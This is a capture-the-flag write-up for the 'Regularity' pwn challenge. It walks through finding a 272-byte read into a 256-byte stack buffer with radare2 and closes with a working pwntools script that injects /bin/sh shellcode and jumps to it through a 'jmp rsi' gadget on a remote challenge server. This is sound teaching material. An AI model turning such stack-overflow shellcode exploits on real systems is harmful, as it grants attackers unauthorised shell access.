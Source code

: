 # Regularity (<font color=green> Very Easy </font>)


## Description
Nothing much changes from day to day. Famine, conflict, hatred - it's all part and parcel of the lives we live now. We've grown used to the animosity that we experience every day, and that's why it's so nice to have a useful program that asks how I'm doing. It's not the most talkative, though, but it's the highest level of tech most of us will ever see...


## Tools Used

- GDB – for debugging and analyzing memory/registers during crashes.

- pwntools – for automating the exploit development and interacting with the binary.

- radare2 – for disassembly and static analysis of the binary.

- ROPgadget – to search for useful instruction sequences (gadgets) inside the binary.

## Skills Learned

- Identifying and exploiting stack buffer overflows

- Writing and injecting custom shellcode

## Steps Taken
### Step 1. Binary Reconnaissance
- `file regularity`: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
- `checksec --file=regularity`: No RELRO, No canary found, NX disabled, No PIE  
    No modern mitigations are enabled. Exploitation is straightforward.
### Step 2: Disassembly & Vulnerability Discovery
- Using radare2: `r2 -A regularity`, we can find 3 functions using `afl`:
    ```
    0x00401000    1     67 entry0
    0x00401043    1      8 loc.write
    0x0040104b    1     36 loc.read
    ```
- The one we are interested in is loc.read as it reads our input and can be vulnerable to buffer overflow. Using `pdf @loc.read`, we can disassemble the function.
    ```
    ┌ 36: loc.read ();
    │           0x0040104b      4881ec0001..   sub rsp, 0x100
    │           0x00401052      b800000000     mov eax, 0
    │           0x00401057      bf00000000     mov edi, 0
    │           0x0040105c      488d3424       lea rsi, [rsp]
    │           0x00401060      ba10010000     mov edx, 0x110              ; 272
    │           0x00401065      0f05           syscall
    │           0x00401067      4881c40001..   add rsp, 0x100
    └           0x0040106e      c3             ret
    ```
    - `sub rsp, 0x100`: allocate 256 bytes
    - `lea rsi, [rsp]`: buffer = rsp
    - `mov edx, 0x110`: read 272 bytes
- Reads 272 bytes into a 256-byte buffer on the stack → classic stack buffer overflow.
### Step 3: Find a jmp rsi Gadget
- We want the program to jump to our shellcode. The input buffer will be pointed to by rsi, so we look for `jmp rsi` gadget using ROPgadget.
### Step 4: Build the [Exploit](exploit.py) Payload
- We inject shellcode that spawns a shell (/bin/sh), pad to 256 bytes, then overwrite RIP with the gadget address. 
    ```python
    from pwn import *

    context.binary = './regularity'
    context.arch = 'amd64'

    p = remote('83.136.253.201', 51755)
    shellcode = asm(shellcraft.sh())
    payload = shellcode
    payload += b'A' * (256 - len(shellcode))
    payload += p64(0x401041)  # jmp rsi

    p.sendafter(b"days?\n", payload)
    p.interactive()
### Step 5: Capture the Flag
- Once shell access is gained: `$ cat flag.txt`

